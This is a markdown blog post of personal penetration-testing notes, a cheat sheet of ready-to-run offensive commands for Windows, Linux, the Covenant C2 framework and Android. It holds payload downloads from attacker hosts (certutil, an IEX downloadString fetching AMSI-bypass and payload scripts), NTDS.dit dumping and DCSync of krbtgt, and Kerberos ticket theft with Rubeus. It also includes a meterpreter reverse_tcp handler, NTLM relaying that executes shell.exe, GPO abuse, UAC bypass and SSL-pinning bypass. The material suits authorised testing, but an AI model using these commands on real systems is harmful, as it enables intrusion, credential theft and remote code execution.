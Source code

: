 ```yaml
---
layout: post
title: "Pentesting Notes"
tags: notes
---
```


### Windows

`Invoke-Inveigh -ConsoleOutput Y -HTTPPort 8080 -FileOutput Y -FileOutputDirectory .`

`certutil.exe -urlcache -split -f http://172.16.10.1/obfs.exe`

NTDS audit 

```
# Dump NTDS.dit file using NTDSUtils
powershell ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\path\to\put\data\' q q"`

`ntdsaudit.exe ntds.dit -s SYSTEM -p pwdump.txt -u users.csv`


Breakout

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe MSBuildShell.csproj `

`cmstp.exe /ni /s C:\Users\username\Desktop\cmstp.inf`

`rundll32 shell32.dll,Control_RunDLL \\192.168.0.4\sharez\cmd.dll`

`pcalua.exe -a C:\windows\system32\cmd.exe`

C#

`Rubeus.exe asktgt /user:username /rc4:ntlm-hash`

`Rubeus.exe dump /service:krbtgt`

PowerShell

`IEX(New-Object Net.WebClient).downloadString('http://192.168.0.1/amsi.ps1')`

```PowerShell
$string = 'iex ((new-object net.webclient).downloadstring("http://payloadserverip/Amsibypass.ps1")); iex ((new-object net.webclient).downloadstring("http://payloadserverip/payload.ps1"))'
```

`[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($string))`

`$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force`

`$Cred = New-Object System.Management.Automation.PSCredential('Domain\user', $SecPassword)`

Use Egress-Asses for data expiltration detection capabilities.

`https://github.com/FortyNorthSecurity/Egress-Assess`

```bash
cd /opt/Egress-Assess/setup
$ sudo ./setup.sh
$ cd ..
$ sudo ./Egress-Assess.py --server http --server-port 8080
```

`PowerShell Invoke-EgressAssess -Client http -DataType ni -IP 10.0.0.4 -Port 8080 -NoPing`

### Linux

`snmpwalk -v 2c -c public <hostIP>`

`hping3 -c 1 --icmp-ts <ip-address>`

`sudo -u postgres psql -U postgres`

`python -m http.server 80`

`msfconsole  -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp;  set lhost 10.10.10.10; set lport 443; set ExitOn Session false; exploit  -j"`

`impacket-smbserver -smb2support files . `

Remove duplicate lines from the file
`awk '!seen[$0]++' filename`

mitm6

`mitm6 -i eth1 -d domain.name`

`ntlmrelayx -6 -smb2support -t smb://<target-ip> -e shell.exe`

`ntlmrelayx.py -6 -wh randomhostname.domain.local -t smb://<target-ip-to-redirect-auth-to> -l /tmp -socks -debug` 

`proxychains python3 /opt/impacket/examples/smbclient.py domain/Administrator@192.168.0.77`


Linux command to use powershell compatible encoded strings

`echo "iex(command)" | iconv --to-code UTF-16LE | base64 -w 0`

Pivoting 

`proxychains socat TCP4-LISTEN:3389,fork TCP4:10.10.10.15:3389`

Search for a *.doc or *.pdf file

`find / -type f \( -iname "*.doc" -o -iname "*.pdf" \) 2>/dev/null`

Look for file with suid set  

`find / -perm u=s -type f 2>/dev/null`

Mountable shares

`showmount -e <IP>`

`mount -t nfs 192.168.0.25:/home /tmp/mnt/`


`curl -g [ipv6-addess-here]`


vlan tagging

`sudo modprobe 8021q`

`sudo vconfig add eth0 104.`

`sudo ip addr add 10.0.0.1/24 dev eth0.104`

`sudo ip link set up eth0.104`



### Covenant


`Assembly /assemblyname:"SharpHound3" /parameters:"-c All -D domain.co.uk"`

`SharpUp audit`

`BypassUACGrunt powershell`

`MakeToken user domain.local Password`

`Rubeus Triage`

`Rubeus dump`

`Rubeus asktgt /user:users /rc4:ntlm-hash`

`Rubeus ptt /ticket:`

`DCSync DOMAIN\krbtgt`

`PortScan WS1,DC1 135,445,3389,4444,5985` 

`shell msiexec /i C:\Windows\Temp\msi-installer.msi /qn`

`PowerShellRemotingCommand Computer "powershell -enc <base64>"`

`Assembly /assemblyname:"SharpGPOAbuse" /parameters:"--AddComputerTask --TaskName \"My Task\" --Author NT AUTHORITY\SYSTEM --Command \"cmd.exe\" --Arguments \"/c <powershell-payload>" --GPOName \"My GPO\""`


### Android


`./emulator -avd <emulator-name> -writable-system -selinux disabled -qemu -enable-kvm --dns-server 8.8.8.8`

`adb root && adb remount`

`adb shell`

`adb reboot`

`adb install application.apk`

`adb logcat | grep "$(adb shell ps | grep <package-name> | awk '{print $2}')"`

`adb push frida-server /data/local/tmp/frida-server`

`adb shell "/data/local/tmp/frida-server &"`

`frida --codeshare pcipolloni/universal-android-ssl-pinning-bypass-with-frida -f com.packageappname --no-pause -U`


Objection

`pip3 install objection`

`objection --gadget "com.packagename" explore`

`android sslpinning disable`

`android hooking search classes com.application`

